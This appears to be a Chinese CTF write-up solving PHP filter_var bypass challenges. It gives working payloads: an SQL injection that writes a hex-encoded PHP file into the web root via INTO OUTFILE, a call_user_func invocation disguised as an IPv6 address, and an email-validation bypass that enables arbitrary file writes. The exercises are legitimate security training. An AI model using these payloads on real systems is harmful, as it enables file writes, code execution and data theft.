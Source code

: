 ```
<?php require 'config.php'; $sql = 'select flag from flag into outfile "/var/www/html/a.txt"'; $result = $conn->query($sql); var_dump($result); ?>

# 因为得符合filter_var()的判断，得用/**/代替空格~

?url=file://127.0.0.1;'union/**/select/**/1,0x上面payload的十六进制编码/**/into/**/outfile/**/"/var/www/html/a.php"%23;

?url=file://127.0.0.1;'union/**/select/**/1,0x3c3f70687020726571756972652027636f6e6669672e706870273b202473716c203d202773656c65637420666c61672066726f6d20666c616720696e746f206f757466696c6520222f7661722f7777772f68746d6c2f612e74787422273b2024726573756c74203d2024636f6e6e2d3e7175657279282473716c293b207661725f64756d702824726573756c74293b203f3e/**/into/**/outfile/**/"/var/www/html/a.php"%23;
```

然后访问a.php执行sql语句，再访问a.txt看查询结果



## 407-ipv6和类方法调用

```php
if(filter_var ($ip,FILTER_VALIDATE_IP)){
    call_user_func($ip);
}

class cafe{
    public static function add(){
        echo file_get_contents('flag.php');
    }
}
```

> FILTER_VALIDATE_IP：把值作为 IP 地址来验证。

1. 可以看到定义了一个类，类中定义了个方法，可以这样来调用：`cafe::add`

2. IPv6的128位地址通常写成8组，每组为四个十六进制数的形式,连续的0可用`::`表示

   只要符合filter_var对ip的判断即可`call_user_func($ip);`，而`cafe::add`正好会被认为是IPv6的格式

记得右键查看源代码

```
?ip=cafe::add
```



## 408-FILTER_VALIDATE_EMAIL

```php
if(filter_var ($email,FILTER_VALIDATE_EMAIL)){
    file_put_contents(explode('@', $email)[1], explode('@', $email)[0]);
}
```

> FILTER_VALIDATE_IP：把值作为 IP 地址来验证。
>
> 就是说`非法字符放在双引号里面可以绕过email@前缀限制`
>
> 参考这里[php代码审计危险函数总结 | Wh0ale's Blog](https://wh0ale.github.io/2019/08/21/php代码审计危险函数总结/)
>
> ![](https://i.loli.net/2021/11/05/8y3XaDu7cgepYqJ.png)
